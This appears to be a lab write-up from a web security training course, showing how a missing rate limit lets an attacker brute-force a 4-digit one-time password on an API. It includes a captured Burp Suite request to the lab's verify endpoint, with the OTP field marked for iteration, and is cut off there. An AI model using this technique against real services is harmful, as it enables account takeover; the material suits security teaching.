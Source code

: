 **Unlimited Attempts**

Over the past few years, web application developers have migrated from traditional architecture to API-driven architecture.  The authentication, authorization, sensitive data, etc are being handled by APIs these days. A misconfiguration or a vulnerability is all an attacker needs to do significant damage.

In this lab, we will take a look at how the lack of rate-limiting could be leveraged to perform brute force attacks and bypass authentication.

**Objective**: Brute force the 4 digit one-time password and bypass the authentication. 

URL: `https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev`.

#### Lab Solution

![Lab - Unlimited Attempts](./assets/testing_for_common_attacks_lab_unlimited_attempts.png)

`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /dev/verify HTTP/1.1 📌
Host: zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 165
Origin: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com
Connection: close
Referer: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev
Cookie: SESSIONID=Z0FBQUFBQm5SeXNyVC1yNXpRSF95dlY2ZjlDNHNxcUs3a0tnQjVZNk5ITWF2NjB6N000c2NEcV9BbVhhVGxHMWtZaFNtYy13Tmx2S3VMcjUwU1lvU0pFQ1djMHNtRnQ2VUE9PQ==

{"sessionid":"Z0FBQUFBQm5SeXNyVC1yNXpRSF95dlY2ZjlDNHNxcUs3a0tnQjVZNk5ITWF2NjB6N000c2NEcV9BbVhhVGxHMWtZaFNtYy13Tmx2S3VMcjUwU1lvU0pFQ1djMHNtRnQ2VUE9PQ==","otp":"1234"} 📌
```
